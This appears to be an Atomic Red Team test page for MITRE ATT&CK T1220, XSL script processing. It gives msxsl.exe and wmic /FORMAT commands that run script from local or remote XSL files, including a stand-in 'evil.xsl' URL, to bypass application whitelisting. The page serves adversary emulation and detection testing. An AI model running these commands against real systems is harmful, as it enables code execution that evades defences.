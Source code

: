# T1220 - XSL Script Processing
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1220)
<blockquote>Extensible Stylesheet Language (XSL) files are commonly used to describe the processing and rendering of data within XML files. To support complex operations, the XSL standard includes support for embedded scripting in various languages. (Citation: Microsoft XSLT Script Mar 2017)

Adversaries may abuse this functionality to execute arbitrary files while potentially bypassing application whitelisting defenses. Similar to [Trusted Developer Utilities](https://attack.mitre.org/techniques/T1127), the Microsoft common line transformation utility binary (msxsl.exe) (Citation: Microsoft msxsl.exe) can be installed and used to execute malicious JavaScript embedded within local or remote (URL referenced) XSL files. (Citation: Penetration Testing Lab MSXSL July 2017) Since msxsl.exe is not installed by default, an adversary will likely need to package it with dropped files. (Citation: Reaqta MSXSL Spearphishing MAR 2018) Msxsl.exe takes two main arguments, an XML source file and an XSL stylesheet. Since the XSL file is valid XML, the adversary may call the same XSL file twice. When using msxsl.exe adversaries may also give the XML/XSL files an arbitrary file extension.(Citation: XSL Bypass Mar 2019)

Command-line examples:(Citation: Penetration Testing Lab MSXSL July 2017)(Citation: XSL Bypass Mar 2019)

* <code>msxsl.exe customers[.]xml script[.]xsl</code>
* <code>msxsl.exe script[.]xsl script[.]xsl</code>
* <code>msxsl.exe script[.]jpeg script[.]jpeg</code>

Another variation of this technique, dubbed “Squiblytwo”, involves using [Windows Management Instrumentation](https://attack.mitre.org/techniques/T1047) to invoke JScript or VBScript within an XSL file.(Citation: LOLBAS Wmic) This technique can also execute local/remote scripts and, similar to its [Regsvr32](https://attack.mitre.org/techniques/T1117)/ "Squiblydoo" counterpart, leverages a trusted, built-in Windows tool. Adversaries may abuse any alias in [Windows Management Instrumentation](https://attack.mitre.org/techniques/T1047) provided they utilize the /FORMAT switch.(Citation: XSL Bypass Mar 2019)

Command-line examples:(Citation: XSL Bypass Mar 2019)(Citation: LOLBAS Wmic)

* Local File: <code>wmic process list /FORMAT:evil[.]xsl</code>
* Remote File: <code>wmic os get /FORMAT:”https[:]//example[.]com/evil[.]xsl”</code></blockquote>

## Atomic Tests

- [Atomic Test #1 - MSXSL Bypass using local files](#atomic-test-1---msxsl-bypass-using-local-files)

- [Atomic Test #2 - MSXSL Bypass using remote files](#atomic-test-2---msxsl-bypass-using-remote-files)

- [Atomic Test #3 - WMIC bypass using local XSL file](#atomic-test-3---wmic-bypass-using-local-xsl-file)

- [Atomic Test #4 - WMIC bypass using remote XSL file](#atomic-test-4---wmic-bypass-using-remote-xsl-file)


<br/>

## Atomic Test #1 - MSXSL Bypass using local files
Executes the code specified within a XSL script tag during XSL transformation using a local payload. Requires download of MSXSL from Microsoft at https://www.microsoft.com/en-us/download/details.aspx?id=21714.

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| xmlfile | Location of the test XML file on the local filesystem. | Path | C:\AtomicRedTeam\atomics\T1220\src\msxslxmlfile.xml|
| xslfile | Location of the test XSL script file on the local filesystem. | Path | C:\AtomicRedTeam\atomics\T1220\src\msxslscript.xsl|

#### Run it with `command_prompt`! 
```
C:\Windows\Temp\msxsl.exe #{xmlfile} #{xslfile}
```



<br/>
<br/>

## Atomic Test #2 - MSXSL Bypass using remote files
Executes the code specified within a XSL script tag during XSL transformation using a remote payload. Requires download of MSXSL from Microsoft at https://www.microsoft.com/en-us/download/details.aspx?id=21714.

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| xmlfile | Remote location (URL) of the test XML file. | Url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1220/src/msxslxmlfile.xml|
| xslfile | Remote location (URL) of the test XSL script file. | Url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1220/src/msxslscript.xsl|

#### Run it with `command_prompt`! 
```
C:\Windows\Temp\msxsl.exe #{xmlfile} #{xslfile}
```



<br/>
<br/>

## Atomic Test #3 - WMIC bypass using local XSL file
Executes the code specified within a XSL script using a local payload.

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| wmic_command | WMI command to execute using wmic.exe | string | process list|
| local_xsl_file | Location of the test XSL script file on the local filesystem. | path | C:\AtomicRedTeam\atomics\T1220\src\wmicscript.xsl|

#### Run it with `command_prompt`! 
```
wmic.exe #{wmic_command} /FORMAT:#{local_xsl_file}
```



<br/>
<br/>

## Atomic Test #4 - WMIC bypass using remote XSL file
Executes the code specified within a XSL script using a remote payload.

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| wmic_command | WMI command to execute using wmic.exe | string | process list|
| remote_xsl_file | Remote location of an XSL payload. | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1220/src/wmicscript.xsl|

#### Run it with `command_prompt`! 
```
wmic.exe #{wmic_command} /FORMAT:#{remote_xsl_file}
```



<br/>

